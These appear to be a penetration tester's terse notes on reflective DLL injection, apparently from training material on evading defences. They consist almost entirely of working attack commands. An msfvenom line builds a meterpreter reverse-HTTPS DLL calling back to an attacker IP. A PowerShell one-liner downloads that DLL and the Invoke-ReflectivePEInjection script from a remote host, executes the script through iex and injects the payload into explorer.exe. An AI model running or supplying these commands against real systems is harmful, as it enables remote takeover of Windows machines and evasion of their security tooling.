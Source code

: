 >Shellcode (DLL) Generation

```sh
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```

>Assumes Invoke-ReflectivePEInjection.ps1 is on the web server

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.62/shellcodes/rev.dll');
$procid = (Get-Process -Name explorer).Id;(New-Object System.Net.WebClient).DownloadString('http://192.168.49.62/Invoke-ReflectivePEInjection.ps1') | iex ;Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid 
```

More Info:
![[Evasion Techniques and Breaching Defenses#5 3 Reflective DLL Injection]]
